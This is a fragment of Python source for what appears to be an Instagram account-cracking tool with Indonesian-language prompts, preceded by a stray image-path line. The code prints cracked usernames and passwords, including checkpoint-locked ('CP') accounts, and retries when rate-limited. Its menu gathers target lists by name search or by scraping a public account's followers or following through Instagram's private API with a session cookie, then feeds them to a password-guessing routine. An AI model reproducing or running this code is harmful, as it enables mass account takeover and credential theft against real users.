 ┣Password : {pw}
┣Pengikut : {pengikut}
┣Mengikuti: {mengikut}
┣Postingan: {postingan}{C}
				""")
			elif 'checkpoint_url' in x.text:
				nama,pengikut,mengikut,postingan=self.APIinfo(user)
				print(f"""\r  
{K}┣[>] STATUS :  CP
  ┣Nama     : {nama}
  ┣Username : {user}
  ┣Password : {pw}
  ┣Pengikut : {pengikut}
  ┣Mengikuti: {mengikut}
  ┣Postingan: {postingan}{C}
				""")
			elif 'Please wait a few minutes' in str(x.text):
				sys.stdout.write(f"\r {U}!{C}] {U}Please wait a few minutes second{C}");sys.stdout.flush();sleep(10)
				self.checkAPI(user,pw)
		except:
			self.checkAPI(user,pw)

	def menu(self):
		self.logo()
		c=input(f' >> ')
		if c=='':
			self.menu()
		elif c in ('1','01'):
			m=int(input(f'\n{CY}┣[?] Masukan jumlah target: {C}'));print('')
			for i in range(m):
				i+1
				nama=input(f'{CY}┣[>] Masukan nama pencarian ({H}{len(internal)}{C}): ')
				name=self.searchAPI(self.cookie,nama)
			self.passwordAPI(name)

		elif c in ('2','02'):
			print(f'\n{M}┣[!] Target harus bersifat publik jangan privat{C}')
			m=input(f'{CY}┣[?] Masukan username instagram: {C}')

			id=self.idAPI(self.cookie,m)
			info=self.infoAPI(self.cookie,'https://i.instagram.com/api/v1/friendships/%s/followers/?count=100000',id)
			self.passwordAPI(info)

		elif c in ('3','03'):
			print(f'\n{M}┣[!] Target harus bersifat publik jangan privat{C}')
			m=input(f'{CY}┣[?] Masukan username instagram: {C}')

			id=self.idAPI(self.cookie,m)
			info=self.infoAPI(self.cookie,'https://i.instagram.com/api/v1/friendships/%s/following/?count=100000',id)
			self.passwordAPI(info)
